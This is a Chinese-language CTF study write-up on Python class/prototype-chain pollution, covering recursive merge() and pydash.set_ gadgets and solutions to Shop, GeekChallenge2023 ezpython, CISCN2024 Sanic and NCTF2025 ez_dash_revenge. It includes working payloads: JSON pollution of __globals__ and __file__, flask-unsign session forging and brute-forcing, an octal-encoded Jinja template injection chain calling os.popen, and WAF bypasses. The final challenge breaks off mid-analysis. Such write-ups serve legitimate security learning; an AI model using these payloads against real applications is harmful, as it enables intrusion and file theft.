# 初识 Python 原型链污染


Python 原型链污染学习小记，最近比赛频频遇到，现在整合资料学习一下

# 原理与利用技巧 
Python 原型链污染是指通过篡改类的原型链，使得所有实例对象共享该类的一些属性或者方法。
在Python中，类变量是所有实例共享的。如果我们修改类变量，所有实例都会受到影响。
- 类变量 是定义在类体中的变量，不依赖于实例，可以通过类或实例访问。类变量在所有实例之间是共享的，修改类变量会影响所有实例。
- 实例变量 是定义在 `__init__()` 方法中的变量，属于每个实例，通过实例访问。每个实例有自己独立的实例变量，修改某个实例的变量不会影响其他实例。
```
class MyClass:
    class_var = 0  # 类变量

    def __init__(self, instance_var):
        self.instance_var = instance_var  # 实例变量
```

## 示例一
`review` 一下：

```
class example:
    a = 1  # 这是一个类变量

    def __init__(self, number):
        self.number = number  # 这是一个实例变量

    def get(self):
        print(self.number)

obj1 = example(5)
obj2 = example(10)
obj1.get()  # 输出: 5
obj2.get()  # 输出: 10
print(example.a)  # 输出: 1

example.a = 20  # 修改类变量 a
obj1.get()  # 输出: 5
obj2.get()  # 输出: 10
print(example.a)  # 输出: 20
```
只有 `example.a` 赋值才真正影响类变量 
## 示例二
实现一些 `web` 功能 
```
# CONFIG.py
class Config:
    is_admin = False  # 默认非管理员

    @classmethod
    def set_config(cls, key, value):
        setattr(cls, key, value)

    @classmethod
    def get_config(cls, key):
        return getattr(cls, key, None)

# app.py
from flask import Flask, request, jsonify
from CONFIG import Config

app = Flask(__name__)

@app.route('/update_config', methods=['POST'])
def update_config():
    data = request.json
    for key, value in data.items():
        Config.set_config(key, value)
    return jsonify({"status": "success", "config": data})

@app.route('/check_admin', methods=['GET'])
def check_admin():
    is_admin = Config.get_config('is_admin')
    return jsonify({"is_admin": is_admin})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=True)
```

当我们控制请求为这样时，会直接创建两个新的类变量
```
http://ip:8081/update_config
application/json: {"theme": "dark", "language": "en"}
```

当我们请求为 `"is_admin":"true"`时，就会覆盖掉原先的值
```
http://ip:8081/update_config
application/json: {"is_admin": "true"}
```

检测当前的 `admin`值，看到已经变成 `true`


在 `pydash 5.1.2`中，`pydash.set_`允许通过路径的方式修改嵌套对象或类属性，甚至是 `Python` 内部的一些特殊属性
```
from pydash import set_

class Father:
    secret_value = "safe"

class Pollution(object):
    def __init__(self):
        pass

pollutant = Pollution()
father = Father()

key = "__class__.__init__.__globals__.father.secret_value"
value = "polluted"

print(father.secret_value)
#safe
set_(pollutant, key, value)
print(father.secret_value)
#polluted
```
而在其他版本则会被阻拦

## merge
在进行原型链污染攻击时，通常需要一个递归合并函数来将恶意的值注入到类的属性或对象的属性中。下方是一个标准的示例：
```
class Father:
    pass
class A(Father):
    def __init__(self):
        pass
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))  # 如果 dst 是字典且 v 是字典，递归合并
            else:
                dst[k] = v  # 否则直接赋值
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))  # 如果 dst 是对象且 v 是字典，递归合并
        else:
            setattr(dst, k, v)  # 否则直接设置对象的属性

a=A()
payload2 = {
    "__init__" : {
        "__globals__" : {
            "__file__" : "/etc/passwd"
        }
    }
}

print(__file__)  //   /home/xxx/xxx/app/app.py
merge(payload2,a) 
print(__file__)  //   /etc/passwd
```
并不是所有类属性都可以被污染，如 `Object`及一些特殊的类、属性包括元组，可能有一些内置的限制或保护机制，防止外部代码篡改这些类的属性。

## 动态访问
### `__init__`
除了通过`__base__`找父类之外，另一些情况中，也可以通过 `__init__`获取全局变量及一些内置属性，如上面 `merge`示例中的 `__init__.__globals__.__file__`

### 获取模块
在当前模块中修改其他已加载模块的函数和属性
```
payload = {
    "__init__" : {
        "__globals__" : {
            "模块名" : {
                "全局变量" : x,
                "类" : {
                    "类变量" : "y"
                }
            }
        }
    }
}
```
 `sys`模块的`modules`属性包含了程序自开始运行时所有已加载过的模块，当环境复杂时，如多层、第三方模块导入等，可以通过 `sys`直接从该属性获取到目标模块
```
payload = {
    "__init__" : {
        "__globals__" : {
            "sys" : {
                "modules" : {
                    "模块名" : {
						"全局变量" : x,
		                "类" : {
		                    "类变量" : "y"
		                }
		            }
                }
            }
        }
    }
}
```


接下来进行一些实战，以下主要参考 `7N` 师傅复现文章，以及最近遇到的一些比赛未解题
# 赛题

## Shop

`2025/9` 帮朋友看的题，补充至初识原型链污染篇章，源码如下

```
import datetime
from flask import Flask, render_template, render_template_string, request, redirect, url_for, session, make_response
from wtforms import StringField, PasswordField, SubmitField
from wtforms.validators import DataRequired, Length
from flask_wtf import FlaskForm
import re


app = Flask(__name__)

app.config['SECRET_KEY'] = 'xxxxxxx'

class RegistrationForm(FlaskForm):
    username = StringField('Username', validators=[DataRequired(), Length(min=2, max=20)])
    password = PasswordField('Password', validators=[DataRequired(), Length(min=6, max=20)])
    submit = SubmitField('Register')
    
class LoginForm(FlaskForm):
    username = StringField('Username', validators=[DataRequired(), Length(min=2, max=20)])
    password = PasswordField('Password', validators=[DataRequired(), Length(min=6, max=20)])
    submit = SubmitField('Login')

class Candy:
    def __init__(self, name, image):
        self.name = name
        self.image = image

class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password

    def verify_password(self, username, password):
        return (self.username==username) & (self.password==password)
class Admin:
    def __init__(self):
        self.username = ""
        self.identity = ""

def sanitize_inventory_sold(value):
    return re.sub(r'[a-zA-Z_]', '', str(value))
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

candies = [Candy(name="Lollipop", image="images/candy1.jpg"),
    Candy(name="Chocolate Bar", image="images/candy2.jpg"),
    Candy(name="Gummy Bears", image="images/candy3.jpg")
]
users = []
admin_user = []
@app.route('/register', methods=['GET', 'POST'])
def register():
    form = RegistrationForm()
    if form.validate_on_submit():
        user = User(username=form.username.data, password=form.password.data)
        users.append(user)
        return redirect(url_for('login'))
    
    return render_template('register.html', form=form)

@app.route('/login', methods=['GET', 'POST'])
def login():
    form = LoginForm()
    if form.validate_on_submit():
        for u in users:
            if u.verify_password(form.username.data, form.password.data):
                session['username'] = form.username.data
                session['identity'] = "guest"
                return redirect(url_for('home'))
    
    return render_template('login.html', form=form)

inventory = 500
sold = 0
@app.route('/home', methods=['GET', 'POST'])
def home():
    global inventory, sold
    message = None
    username = session.get('username')
    identity = session.get('identity')

    if not username:
        return redirect(url_for('register'))
    
    if sold >= 10 and sold < 500:
        sold = 0
        inventory = 500
        message = "But you have bought too many candies!"
        return render_template('home.html', inventory=inventory, sold=sold, message=message, candies=candies)

    if request.method == 'POST':
        action = request.form.get('action')
        if action == "buy_candy":
            if inventory > 0:
                inventory -= 3
                sold += 3
            if inventory == 0:
                message = "All candies are sold out!"
            if sold >= 500:
                with open('secret.txt', 'r') as file:
                    message = file.read()

    return render_template('home.html', inventory=inventory, sold=sold, message=message, candies=candies)


@app.route('/admin', methods=['GET', 'POST'])
def admin():
    username = session.get('username')
    identity = session.get('identity')
    if not username or identity != 'admin':
        return redirect(url_for('register'))
    admin = Admin()
    merge(session,admin)
    admin_user.append(admin)
    return render_template('admin.html', view='index')

@app.route('/admin/view_candies', methods=['GET', 'POST'])
def view_candies():
    username = session.get('username')
    identity = session.get('identity')
    if not username or identity != 'admin':
        return redirect(url_for('register'))
    return render_template('admin.html', view='candies', candies=candies)

@app.route('/admin/add_candy', methods=['GET', 'POST'])
def add_candy():
    username = session.get('username')
    identity = session.get('identity')
    if not username or identity != 'admin':
        return redirect(url_for('register'))
    candy_name = request.form.get('name')
    candy_image = request.form.get('image')
    if candy_name and candy_image:
        new_candy = Candy(name=candy_name, image=candy_image)
        candies.append(new_candy)
    return render_template('admin.html', view='add_candy')

@app.route('/admin/view_inventory', methods=['GET', 'POST'])
def view_inventory():
    username = session.get('username')
    identity = session.get('identity')
    if not username or identity != 'admin':
        return redirect(url_for('register'))
    inventory_value = sanitize_inventory_sold(inventory)
    sold_value = sanitize_inventory_sold(sold)
    return render_template_string("商店库存:" + inventory_value + "已售出" + sold_value)

@app.route('/admin/add_inventory', methods=['GET', 'POST'])
def add_inventory():
    global inventory
    username = session.get('username')
    identity = session.get('identity')
    if not username or identity != 'admin':
        return redirect(url_for('register'))
    if request.form.get('add'):
        num = request.form.get('add')
        inventory += int(num)
    return render_template('admin.html', view='add_inventory')

@app.route('/')
def index():
    return render_template('index.html')

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=1337)
```
许多路由，`/admin/*` 路由都是校验是否为 `admin` 用户，是 `admin` 页面定义的功能，所以主要关注 `/register、/login、/home、/admin`路由
`/login`登录时会将 `username` 和 `identity`键写入 `session` 中；`/home`没有鉴权限制，普通用户登录后即可访问，购物会增加 `sold`，如果 `sold` 大于等于 500 则返回 `secret.txt` 文件内容，但直接在 `/home`下操作不行，因为当 `sold` 大于等于 10 小于 500 时直接清零

```
@app.route('/home', methods=['GET', 'POST'])
def home():
    global inventory, sold
    message = None
    username = session.get('username')
    identity = session.get('identity')

    if not username:
        return redirect(url_for('register'))
    
    if sold >= 10 and sold < 500:
        sold = 0
        inventory = 500
        message = "But you have bought too many candies!"
        return render_template('home.html', inventory=inventory, sold=sold, message=message, candies=candies)

    if request.method == 'POST':
        action = request.form.get('action')
        if action == "buy_candy":
            if inventory > 0:
                inventory -= 3
                sold += 3
            if inventory == 0:
                message = "All candies are sold out!"
            if sold >= 500:
                with open('secret.txt', 'r') as file:
                    message = file.read()

    return render_template('home.html', inventory=inventory, sold=sold, message=message, candies=candies)
```
想要修改 sold 大于 500，只能在调用 `/admin` 路由时通过 `merge`方法进行原型链污染
```
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
@app.route('/admin', methods=['GET', 'POST'])
def admin():
    username = session.get('username')
    identity = session.get('identity')
    if not username or identity != 'admin':
        return redirect(url_for('register'))
    admin = Admin()
    merge(session,admin)
    admin_user.append(admin)
    return render_template('admin.html', view='index')
```
`/admin/view_inventory`路由，`render_template_string`拼接 `sold、inventory`变量返回，`WAF` 只过滤大小写字母和下划线，那不用字母就行，许多编码都提供不带字母的形式，而模板引擎能解析各种编码格式。原型链污染能控制 `sold、inventory`的值，因此这存在模板注入
```
def sanitize_inventory_sold(value):
    return re.sub(r'[a-zA-Z_]', '', str(value))

@app.route('/admin/view_inventory', methods=['GET', 'POST'])
def view_inventory():
    username = session.get('username')
    identity = session.get('identity')
    if not username or identity != 'admin':
        return redirect(url_for('register'))
    inventory_value = sanitize_inventory_sold(inventory)
    sold_value = sanitize_inventory_sold(sold)
    return render_template_string("商店库存:" + inventory_value + "已售出" + sold_value)
```
注册并登录，拿到 session
```
app.config['WTF_CSRF_ENABLED'] = False
```

用 `flask-unsign` 对  `session` 解密

```
flask-unsign -d -c eyJpZGVudGl0eSI6Imd1ZXN0IiwidXNlcm5hbWUiOiJhYWFhYWFhIn0.aMq39Q.OU6s9CIxCtyEAnn5naz2xrDn5T4
//{'csrf_token': '9d3be5b9fce646ac82aee3aa4a29b6774f82ed92', 'identity': 'guest', 'username': 'aaaaa'}
```

这里 KEY 是一个弱密码可以直接被爆破出来，得到 `a123456`，注意此时爆破的 session 是靶机中的，本地源码密钥是 `xxxxxx`

```
flask-unsign --unsign --cookie .eJwVy0sKgCAURuG93HEjNR9tJq76GxIZqA0i2nt2hh-ch0Krae3njkILuSg9Zu9SgFaagxUMSGbFwnltjEpWIDpBE-WI0nO_x7VdaH3Q1VALHxjEf_R-sIgeXQ.aMorow.zh3DioGo-2g2zbJYOLPTqD7_rYs --no-literal-eval --wordlist ~/tools/wordlists/flask-session/all_noquotes.txt
```

现在有 `json` 体、`KEY`，将 identity 修改为 admin 即可绕过鉴权

```
flask-unsign --sign --cookie "{'username': 'aaaaa', 'identity': 'admin',  '__init__' : {'__globals__' : {'sold' : 1000}}}" --no-literal-eval --secret 'a123456'
//.eJyrViotTi3KS8xNVbJSSgQBJR2lzJTUvJLMkkqQUEpuZh5QKD4-My-zJD5eyaoayE7PyU9KzCmGcIvzc1KUrAwNDAxqa2sBTZAa-g.aMrAMg.LLxmD5PQRk8EuKmPg0to4bfNeCk
```

```
action=buy_candy
```
secret 是一个 HINT：flag 在 `/tmp/xxxx/xxx/xxxx/flag` 路径下

模板注入，八进制绕过 `WAF`，伪造 `session`后发包 `/admin`，随后访问 `/admin/view_inventory`

```
{{''['\137'+'\137'+'\143'+'\154'+'\141'+'\163'+'\163'+'\137'+'\137']}}
```

Payload 构造历程

```
{{''['__class__']}}
{{''['\137\137\143\154\141\163\163\137\137']}}

{{''['__class__']['__mro__[1]']}}
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\155\162\157\137\137'][1]}}

{{''['__class__']['__mro__[1]']['__subclasses__']()[132]}}
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\155\162\157\137\137'][1]['\137'+'\137'+'\163'+'\165'+'\142'+'\143'+'\154'+'\141'+'\163'+'\163'+'\145'+'\163'+'\137'+'\137']()[132]}}

{{''['__class__']['__mro__[1]']['__subclasses__']()[132]['__init__']}}
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\155\162\157\137\137'][1]['\137'+'\137'+'\163'+'\165'+'\142'+'\143'+'\154'+'\141'+'\163'+'\163'+'\145'+'\163'+'\137'+'\137']()[132]['\137\137\151\156\151\164\137\137']}}

{{''['__class__']['__mro__[1]']['__subclasses__']()[132]['__init__']['__globals__']}}
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\155\162\157\137\137'][1]['\137'+'\137'+'\163'+'\165'+'\142'+'\143'+'\154'+'\141'+'\163'+'\163'+'\145'+'\163'+'\137'+'\137']()[132]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']}}

{{''['__class__']['__mro__[1]']['__subclasses__']()[132]['__init__']['__globals__']['popen']}}
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\155\162\157\137\137'][1]['\137'+'\137'+'\163'+'\165'+'\142'+'\143'+'\154'+'\141'+'\163'+'\163'+'\145'+'\163'+'\137'+'\137']()[132]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']}}

{{''['__class__']['__mro__[1]']['__subclasses__']()[132]['__init__']['__globals__']['popen']('whoami')["read"]()}}
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\155\162\157\137\137'][1]['\137'+'\137'+'\163'+'\165'+'\142'+'\143'+'\154'+'\141'+'\163'+'\163'+'\145'+'\163'+'\137'+'\137']()[132]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\167\150\157\141\155\151')["\162\145\141\144"]()}}

{{''['__class__']['__mro__[1]']['__subclasses__']()[132]['__init__']['__globals__']['popen']('cat /tmp/*/*/*/flag')["read"]()}}
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\155\162\157\137\137'][1]['\137'+'\137'+'\163'+'\165'+'\142'+'\143'+'\154'+'\141'+'\163'+'\163'+'\145'+'\163'+'\137'+'\137']()[132]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\143\141\164\40\57\164\155\160\57\52\57\52\57\52\57\146\154\141\147')["\162\145\141\144"]()}}
```


**其他**

讲一下本地调试遇到的问题
一、
发现注册时 `form.validate_on_submit()`总是返回 `False`，全局变量也没有改变，这是由 `Flask-wtf/wtforms` 机制导致的
`wtf` 的校验顺序是，先看是不是 `POST`，再做字段+`CSRF` 校验，`csrf_token` 会在 `GET` 访问 `/register` 路由渲染表单时自动被写入 `session` 中；缺任意一个都会让 `validate_on_submit()` 返回 `False`
修改代码，将 `WTF_CSRF_ENABLED`设置为 `False`， `WTF` 会忽略 `CSRF` 校验机制，只剩下字段校验，此时就能走进去，然后 `login` 登录拿到 `session`
二、
发现执行时，变量只有在路由调用时才有，最开始还以为 wtf 有个重置机制，但其实没有


## `[GeekChallenge2023]ezpython`
https://github.com/SycloverTeam/GeekChallenge2023/blob/main/Web/ezpython/


源码如下
```
import json
import os

from waf import waf
import importlib
from flask import Flask,render_template,request,redirect,url_for,session,render_template_string

app = Flask(__name__)
app.secret_key='jjjjggggggreekchallenge202333333'
class User():
    def __init__(self):
        self.username=""
        self.password=""
        self.isvip=False


class hhh(User):
    def __init__(self):
        self.username=""
        self.password=""

registered_users=[]
@app.route('/')
def hello_world():  # put application's code here
    return render_template("welcome.html")

@app.route('/play')
def play():
    username=session.get('username')
    if username:
        return render_template('index.html',name=username)
    else:
        return redirect(url_for('login'))

@app.route('/login',methods=['GET','POST'])
def login():
    if request.method == 'POST':
        username=request.form.get('username')
        password=request.form.get('password')
        user = next((user for user in registered_users if user.username == username and user.password == password), None)
        if user:
            session['username'] = user.username
            session['password'] = user.password
            return redirect(url_for('play'))
        else:
            return "Invalid login"
        return redirect(url_for('play'))
    return render_template("login.html")

@app.route('/register',methods=['GET','POST'])
def register():
    if request.method == 'POST':
        try:
            if waf(request.data):
                return "fuck payload!Hacker!!!"
            data=json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "连用户名密码都没有你注册啥呢"
            user=hhh()
            merge(data,user)
            registered_users.append(user)
        except Exception as e:
            return "泰酷辣,没有注册成功捏"
        return redirect(url_for('login'))
    else:
        return render_template("register.html")

@app.route('/flag',methods=['GET'])
def flag():
    user = next((user for user in registered_users if user.username ==session['username']  and user.password == session['password']), None)
    if user:
        if user.isvip:
            data=request.args.get('num')
            if data:
                if '0' not in data and data != "123456789" and int(data) == 123456789 and len(data) <=10:
                        flag = os.environ.get('geek_flag')
                        return render_template('flag.html',flag=flag)
                else:
                    return "你的数字不对哦!"
            else:
                return "I need a num!!!"
        else:
            return render_template_string('这种神功你不充VIP也想学?<p>要不v我50,我送你一个VIP吧,嘻嘻</p>')
    else:
        return "先登录去"

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

if __name__ == '__main__':
    app.run(host="0.0.0.0",port="8888")
```

审计一下，很明显有 `merge`函数，这就是上面一直在学习的递归合并函数。
我们通过 `/register`路由能够注册账户，`/login`登录，关键点在 `/flag`路由：当 `user.isvip`判断为`true`时，再经过一层 `int`绕过，即可在页面返回 `flag` 
```
@app.route('/flag',methods=['GET'])
def flag():
    user = next((user for user in registered_users if user.username ==session['username']  and user.password == session['password']), None)
    if user:
        if user.isvip:
            data=request.args.get('num')
            if data:
                if '0' not in data and data != "123456789" and int(data) == 123456789 and len(data) <=10:
                        flag = os.environ.get('geek_flag')
                        return render_template('flag.html',flag=flag)
                else:
                    return "你的数字不对哦!"
            else:
                return "I need a num!!!"
        else:
            return render_template_string('这种神功你不充VIP也想学?<p>要不v我50,我送你一个VIP吧,嘻嘻</p>')
    else:
        return "先登录去"
```

正常注册 `admin/admin`测试，一路畅通无阻，当访问 `/flag`时返回结果是 `500`，程序报错


最开始读代码时以为需要污染的对象是 `User.isvip`，因为这边定义了 `False`，实际上 `User`实例变量对做题没有任何作用
```
class User():
    def __init__(self):
        self.username=""
        self.password=""
        self.isvip=False

class hhh(User):
    def __init__(self):
        self.username=""
        self.password=""
```

对程序进行断点调试，`user`的所属类的确是 `hhh()`，所以污染并不需要找父类


**攻击链构造**
理清楚逻辑，可以大胆构造 `Payload` 了，不过这里还需要绕过 `WAF`
```
def waf(data):
    data=str(data)
    if "isvip" in data or "_static_folder" in data or "os" in data or "loader" in data or "defaults" in data or "kwdefaults" in data:
        return True
```

`JSON` 解析器能够正确解析`Unicode`转义字符，通过 `Unicode`编码绕过
```
{
"username": "admin123",
"password": "admin123",
"__class__":{
        "\u0069\u0073\u0076\u0069\u0070": "True"
    }
}
```


最后就只需要绕过 `int`就好了，用 `+`或者空格即可
```
if '0' not in data and data != "123456789" and int(data) == 123456789 and len(data) <=10:
```

得到 Flag
```
http://ip/flag?num=+123456789
```



## `[CISCN2024]Sanic`
访问根目录，网页源代码给了提示，访问 `/src`得到源码
```
from sanic import Sanic
from sanic.response import text, html
from sanic_session import Session
import pydash
# pydash==5.1.2

class Pollute:
    def __init__(self):
        pass

app = Sanic(__name__)
app.static("/static/", "./static/")
Session(app)

@app.route('/', methods=['GET', 'POST'])
async def index(request):
    return html(open('static/index.html').read())

@app.route("/login")
async def login(request):
    user = request.cookies.get("user")
    if user.lower() == 'adm;n':
        request.ctx.session['admin'] = True
        return text("login success")
    return text("login fail")

@app.route("/src")
async def src(request):
    return text(open(__file__).read())

@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")
    return text("forbidden")

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

版本 5.1.2，`padash.set_`允许通过路径的方式修改嵌套对象或类属性
```
# pydash==5.1.2
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")
    return text("forbidden")
```

思路是 `/src`路由刚好提供了文件读取功能，污染 `__file__`，即可读取文件
```
@app.route("/src")
async def src(request):
    return text(open(__file__).read())
```

`/login`路由登录需要我们绕过 `user.lower() == 'adm;n'`限制，`Cookie`默认是使用分号间隔，直接传入 `adm;n`肯定不行
```
@app.route("/login")
async def login(request):
    user = request.cookies.get("user")
    if user.lower() == 'adm;n':
        request.ctx.session['admin'] = True
        return text("login success")
    return text("login fail")
```

这里考察的是 `RFC2068` 的编码规则绕过。原理是当接收到HTTP请求时，`Sanic` 会构造一个 `Request` 对象并在初始化时调用`parse_cookies()` 函数，该函数会对 `Cookie`解析，如果发现值被单引号包裹，则调用 `_unquote()`处理
```
GET /login HTTP/1.1
Cookie: user="\141\144\155\073\156"
```

在 `#_unquote`这段代码中对八进制做了处理
```
else:
	res.append(str[i:j])
	res.append(chr(int(str[j + 1 : j + 4], 8)))  # noqa: E203
	i = j + 4
```

在`site-packages/sanic/cookies/request.py#parse_cookie`下断点调试


跟进 `#_unquote`，慢慢调试，看到返回了一个解码后的列表


最终的 `Cookie`就变成了 `user=adm;n` 


**接下来**需要绕过 `_.`
```
if key and value and type(key) is str and '_.' not in key:
	pollute = Pollute()
	pydash.set_(pollute, key, value)
	return text("success")
```

我们进 `pydash.set_`内部一点点跟读



继续读源码，发现在`pydash/object.py#update_with`中调用了 `to_path_tokens`


传入的 `key`此时变成了 `value`，重点是在 `keys`列表体内处理了传入的字典，同时调用了 `#unescape_path_key`
```
# /pydash/utilities.py#to_path_tokens
RE_PATH_KEY_DELIM = re.compile(r"(?<!\\)(?:\\\\)*\.|(\[\d+\])")

def to_path_tokens(value):
		...
        keys = [
            PathToken(int(key[1:-1]), default_factory=list)
            if RE_PATH_LIST_INDEX.match(key)
            else PathToken(unescape_path_key(key), default_factory=dict)
            for key in filter(None, RE_PATH_KEY_DELIM.split(value))
        ]
```

`pydash/utilities.py#unescape_path_key`函数对字符进行了替换
```
def unescape_path_key(key):
    """Unescape path key."""
    key = key.replace(r"\\", "\\")
    key = key.replace(r"\.", r".")
    return key
# \\ 替换为 \ 
# \. 替换为 .
```


最后在 `#base_set.setattr`完成属性污染， `pydash/object.py#set_ -> #set_with -> #update_with -> helpers.py#base_set`


我们可以通过全局变量找到污染变量的路径


构造 `Payload`
```
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.__file__","value": "/etc/passwd"}
```

再次测试，变量已成功被污染


接下来开始就是本题最难的考点，由于不知道 `FLAG`文件名及路径，我们只能继续寻找可污染变量，下面给出的方法是通过原型链污染的方式来污染静态文件的目录配置

**污染链挖掘**
在代码中，只有`app.static`处存在路径功能，我们进入该函数一探究竟
在该函数参数定义中写出了，当`directory_view`为`True`时，`Sanic` 会暴露目录内容，使得我们能够查看该目录中的所有文件。`directory_handler`则可以定义访问的目录路径。

跟进源码，发现`directory_handler` 是 `DirectoryHandler` 类实例


但由于我们没办法直接在繁杂的变量堆中分辨出 `diretory_view`的路径，只能慢慢挨个尝试可能的路径
在找污染链时学到一个小`Tricks`，即元组无法被写入，在这么多变量中可以忽略掉元组。最终发现以下链子


发包
```
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view","value": "True"}
```

`/src`路由下断点并访问，看到 `directory_view`变成`True`了 !


还需要污染 `directory` 来指定目录，但 `directory.parts`是一个元组，无法直接被污染


回到源码，跟进 `DirectoryHandler`，发现 `diretory`的类型为 `Path`类


复现到这一步 `Python` 版本对不上，之前复现的师傅应该是没问题的，我们找不到对应的漏洞版本，只能把漏洞代码写出来简单分析一下：
这里跟进到 `Path` 类，先看类实例方法，大致就是根据操作系统选择合适的路径类，然后调用 `_from_parts` 方法，并检查该操作系统是否支持该路径类。如果不支持则抛出异常。最后，返回生成的对象。


再跟进 `_from_parts`，这里赋值了多个变量，我们要做的就是试出哪个才是存放路径的变量


打远程，成功
```
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory._parts","value": ["/"]}
```


拿到 FLAG


## `[NCTF2025]ez_dash_revenge`
这道题修复了 `ez_dash`的非预期，源码如下
对比原题加了一个黑名单，过滤掉 `{}.%<>_`，把模板注入函数都禁了，只能找链子做原型链污染

```
'''
Hints: Flag在环境变量中
'''


from typing import Optional


import pydash
import bottle


__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
               '__code__', '__defaults__', '__delattr__', '__dict__',
               '__dir__', '__doc__', '__eq__', '__format__',
               '__ge__', '__get__', '__getattribute__',
               '__gt__', '__hash__', '__init__', '__init_subclass__',
               '__kwdefaults__', '__le__', '__lt__', '__module__',
               '__name__', '__ne__', '__new__', '__qualname__',
               '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
               '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
               "Optional","render"
               ]
__forbidden_name__=[
    "bottle"
]
__forbidden_name__.extend(dir(globals()["__builtins__"]))

def setval(name:str, path:str, value:str)-> Optional[bool]:
    if name.find("__")>=0: return False
    for word in __forbidden_name__:
        if name==word:
            return False
    for word in __forbidden_path__:
        if path.find(word)>=0: return False
    obj=globals()[name]
    try:
        pydash.set_(obj,path,value)
    except:
        return False
    return True

@bottle.post('/setValue')
def set_value():
    name = bottle.request.query.get('name')
    path=bottle.request.json.get('path')
    if not isinstance(path,str):
        return "no"
    if len(name)>6 or len(path)>32:
        return "no"
    value=bottle.request.json.get('value')
    return "yes" if setval(name, path, value) else "no"

@bottle.get('/render')
def render_template():
    path=bottle.request.query.get('path')
    if len(path)>10:
        return "hacker"
    blacklist=["{","}",".","%","<",">","_"] 
    for c in path:
        if c in blacklist:
            return "hacker"
    return bottle.template(path)
bottle.run(host='0.0.0.0', port=8000)
```

`Python` 原型链污染需要搭配一些危险函数利用，纵观题目源码仅有 `bottle.template(path)`是可以做手脚的，我们跟进 `template`源码看看
```
def template(*args, **kwargs):
    """
    Get a rendered template as a string iterator.
    You can use a name, a filename or a template string as first parameter.
    Template rendering arguments can be passed as dictionaries
    or directly (as keyword arguments).
    """
    tpl = args[0] if args else None
    for dictarg in args[1:]:
        kwargs.update(dictarg)
    adapter = kwargs.pop('template_adapter', SimpleTemplate)
    lookup = kwargs.pop('template_lookup', TEMPLATE_PATH)
    tplid = (id(lookup), tpl)
    if tplid not in TEMPLATES or DEBUG:
        settings = kwargs.pop('template_settings', {})
        if isinstance(tpl, adapter):
            TEMPLATES[tplid] = tpl
            if settings: TEMPLATES[tplid].prepare(**settings)
        elif "\n" in tpl or "{" in tpl or "%" in tpl or '$' in tpl:
            TEMPLATES[tplid] = adapter(source=tpl, lookup=lookup, **settings)
        else:
            TEMPLATES[tplid] = adapter(name=tpl, lookup=lookup, **settings)
    if not TEMPLATES[tplid]:
        abort(500, 'Template (%s) not found' % tpl)
    return TEMPLATES[tplid].render(kwargs)
```

`tpl`就是得到我们传参，而`lookup`得到一个路径
```
# TEMPLATE_PATH = ['./', './views/']
tpl = args[0] if args else None
lookup = kwargs.pop('template_lookup', TEMPLATE_PATH)
# lookup = ['./', './views/']
```

往下看，`adapter`变成 `SipleTemplate`类，然后在后面被初始化。 第一个 `elif`我们肯定进不去，字符都被过滤了，因此只能进入 `else`
```
adapter = kwargs.pop('template_adapter', SimpleTemplate)
...
		elif "\n" in tpl or "{" in tpl or "%" in tpl or '$' in tpl:
            TEMPLATES[tplid] = adapter(source=tpl, lookup=lookup, **settings)
        else:
            TEMPLATES[tplid] = adapter(name=tpl, lookup=lookup, **settings)
```

跟进 `SimpleTemplate`类，类内没有构造函数，看到`BaseTemplate`是基类，继续跟进


看构造函数，赋值了一堆变量，并且定义了模板文件的绝对路径，也就是程序如何找到指定文件
```
class BaseTemplate(object):
	def __init__(self,
			 source=None,
			 name=None,
			 lookup=None,
			 encoding='utf8', **settings):
	self.name = name
	self.source = source.read() if hasattr(source, 'read') else source
